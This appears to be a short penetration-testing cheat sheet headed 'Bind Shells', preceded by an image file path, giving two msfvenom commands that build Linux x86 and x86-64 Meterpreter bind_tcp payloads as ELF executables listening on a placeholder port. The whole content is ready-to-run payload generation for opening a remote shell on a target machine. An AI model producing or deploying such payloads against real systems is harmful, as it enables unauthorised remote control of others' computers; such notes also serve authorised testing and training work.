 # Bind Shells

x86 (32-bit) payload.

```
$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o payload-x86
```

x86-64 (64-bit) payload.

```
$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o payload-x64
```